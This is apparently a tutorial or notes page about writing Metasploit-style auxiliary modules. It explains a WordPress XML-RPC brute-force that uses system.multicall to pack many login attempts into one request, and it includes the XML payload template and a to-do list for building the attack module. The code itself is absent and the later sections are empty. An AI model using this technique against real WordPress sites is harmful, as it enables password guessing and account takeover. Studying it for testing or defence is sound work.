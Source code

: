 # Auxiliary module


## Scanner 

Scanner basic modules

- S

### Wordpress XMLRPC Massive Bruteforce
Wordpress CMS framework support XMLRPC service to interact with almost all functions in the framework. Some functions require authentication. The main issues lies in the you can authenticate many times within the same request. Wordpress accepts about 1788 lines of XML request which allows us to send tremendous number of login tries in a single request.

```
<?xml version="1.0"?>
<methodCall>
<methodName>system.multicall</methodName>
<params>
 <param><value><array><data>
 
 
  <value><struct>
  <member>
    <name>methodName</name>
    <value><string>wp.getUsersBlogs</string></value>
  </member>
  <member>
    <name>params</name><value><array><data>
     <value><array><data>
      <value><string>"USER #1"</string></value>
      <value><string>"PASS #1"</string></value>
     </data></array></value>
    </data></array></value>
  </member>
  .
  .
  ...Snippet...
  ..
  ..
  <value><struct>
  <member>
    <name>methodName</name>
    <value><string>wp.getUsersBlogs</string></value>
  </member>
  <member>
    <name>params</name><value><array><data>
     <value><array><data>
      <value><string>"USER #1"</string></value>
      <value><string>"PASS #N"</string></value>
     </data></array></value>
    </data></array></value>
  </member>
  
  
</params>
</methodCall>
```
So from above 

#### What do we want?
- [ ] Create Auxiliary module
- [ ] Deal with Web Application 
- [ ] Deal with Wordpress 
- [ ] Describe The module
- [ ] Let people know we created this module
- [ ] Add references about the vulnerability that we exploit
- [ ] Options to set the target URI, port, user, pass list.
- [ ] Read username and password lists as arrays 
- [ ] Build/Generate XML file takes a user and iterate around the passwords
- [ ] Check if target is running wordpress 
- [ ] Check if target enabling RPC 
- [ ] Check if we got blocked
- [ ] Parsing the result and find which password is correct 

#### Wrapping up
The final module 

### DoS module 

### Server

